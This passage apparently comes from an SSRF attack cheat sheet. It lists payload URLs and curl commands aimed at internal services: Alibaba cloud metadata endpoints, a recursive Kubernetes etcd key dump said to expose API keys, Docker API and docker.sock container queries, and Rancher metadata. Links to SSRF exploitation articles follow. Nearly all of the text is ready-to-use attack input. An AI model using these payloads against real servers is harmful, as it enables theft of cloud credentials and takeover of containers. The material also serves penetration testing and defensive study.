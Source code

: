 ### **Alibaba**

```
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

### **Kubernetes ETCD**

Can contain API keys and internal ip and ports

```
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### **Docker**

```
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

### **[Rancher](https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/)**

```
curl http://rancher-metadata/<version>/<path>
```

### **References**

```
https://www.agarri.fr/docs/AppSecEU15-Server_side_browsing_considered_harmful.pdf
```

[https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978)

[https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-2-a085ec4332c0](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-2-a085ec4332c0)

[https://subhajitsaha.com/bypassing-ssrfs-like-a-king/](https://subhajitsaha.com/bypassing-ssrfs-like-a-king/)

[https://github.com/jdonsec/AllThingsSSRF](https://github.com/jdonsec/AllThingsSSRF)




